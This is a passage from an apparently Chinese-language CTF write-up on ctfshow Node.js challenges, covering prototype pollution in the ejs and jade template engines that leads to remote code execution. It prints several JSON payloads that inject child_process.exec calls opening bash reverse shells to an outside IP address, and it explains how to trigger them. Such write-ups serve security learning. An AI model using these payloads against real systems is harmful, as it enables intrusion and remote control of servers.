 可以看到检测到一个ejs模板引擎的原型链污染RCE：
[XNUCA2019 Hardjs题解 从原型链污染到RCE - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/6113)
[几个node模板引擎的原型链污染分析 | L0nm4r (lonmar.cn)](https://lonmar.cn/2021/02/22/几个node模板引擎的原型链污染分析/#gallery-10)
网上的exp：

```json
{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx/6666 0>&1\"');var __tmp2"}}

{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require(\'child_process\').exec(\'hhh\');var __tmp2"}}
```

这里修改一下，还是像340，两层污染：

```json
{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/119.3.217.40/6666 0>&1\"');var __tmp2"}}}
```

![](https://i.loli.net/2021/09/07/pvqmhELNiFczb7G.png)

然后随便访问一个页面就能触发rce

![](https://i.loli.net/2021/09/07/T6Sh5BisDN8F3ap.png)

flag在根目录下
![](https://i.loli.net/2021/09/07/NM3kY1iypc6wnQK.png)

## 342 、343 jade原型链污染

> Hint：审计了1个小时发现的，此链目前网上未公开，难度稍大

jade原型链污染：[再探 JavaScript 原型链污染到 RCE - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7025)
本题和上文链接稍有不同，是群主当时发现的未公开链子，当然现在这么久也已经公开了

分析可以看：
[几个node模板引擎的原型链污染分析 | L0nm4r (lonmar.cn)](https://lonmar.cn/2021/02/22/几个node模板引擎的原型链污染分析/)
[ctfshow nodejs篇 - TARI TARI](https://tari.moe/2021/05/04/ctfshow-nodejs/)

看完可以知道，jade本身是没有漏洞的，但原型链污染的存在再加上模版渲染就出现了漏洞

payload：

```json
{"__proto__":{"__proto__":{"compileDebug":1,"type":"Code","self":1,"title":"tari","line":"global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/119.3.217.40/6666>&1\"')"}}}
```

重点是content-type要改为application/json，然后发两次包，一次污染，一次触发就可以rce
![](https://i.loli.net/2021/09/08/Fb7xMTtJVWEqv38.png)

但是发现弹的shell卡住了，只能一条条命令的执行：
